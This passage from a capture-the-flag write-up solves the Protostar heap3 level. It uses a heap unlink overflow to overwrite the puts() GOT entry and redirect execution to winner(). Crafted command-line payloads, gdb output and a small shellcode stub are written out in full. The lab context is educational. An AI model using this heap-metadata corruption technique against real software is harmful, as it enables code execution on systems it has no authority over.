 We attempt to write that address directly to `the GOT entry of puts()`.

```shell
user@protostar:~$ gdb --args /opt/protostar/bin/heap3 `python -c "print 'AAAA'"` `python -c "print 'A' * 32 + '\xfc\xff\xff\xff' + '\xfc\xff\xff\xff' + 'A' * 4 + '\x1c\xb1\x04\x08\x64\x88\x04\x08'"` DDD

(gdb) run
Starting program: /opt/protostar/bin/heap3 AAAA AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA DDD

Program received signal SIGSEGV, Segmentation fault.
0x08049906 in free (mem=0x804c058) at common/malloc.c:3638
3638    common/malloc.c: No such file or directory.
        in common/malloc.c

(gdb) p $_siginfo._sifields._sigfault.si_addr
$5 = (void *) 0x804886c
```

We see that it segfaults as it attempts to write to `0x804886c`. This is due to
second step in the unlink process.

We need to change our input so that `P->bk + 8` lands somewhere in a writable
memory address space. What we can do is overwrite the `puts()` GOT entry with
a location on the heap that contains some shellcode to jump to `winner()`.

To obtain our shellcode, we use `nasm_shell` to generate a
`push 0x8048864; ret` instruction.

```shell
nasm > push 0x08048864
00000000  6864880408        push dword 0x8048864
nasm > ret
00000000  C3                ret
```

We place our shell code at the start of the heap using our first `strcpy()`.
We want to start the shellcode after writing 4 bytes because the initial 4
bytes of data for each chunk will be overwritten when the chunk is freed.
Since we know that our heap memory starts at `0x804c000`, we know that our
shell code starts at `0x804c00c`.

```shell
user@protostar:~$ /opt/protostar/bin/heap3 `python -c "print 'AAAA\x68\x64\x88\x04\x08\xc3'"` `python -c "print 'A' * 32 + '\xfc\xff\xff\xff' + '\xfc\xff\xff\xff' + 'A' * 4 + '\x1c\xb1\x04\x08\x0c\xc0\x04\x08'"` DDD
that wasn't too bad now, was it? @ 1527713315
```

<h1>Closing Thoughts</h1>

Heap exploitation is _complicated_. The examples we have seen in Protostar are
relatively simple techniques. This is especially true for heap 3 as glibc has
been hardened against the "unlink()" technique for a very long time. However,
it is still worth studying as it nicely illustrates how heap metadata can be
abused for code execution.
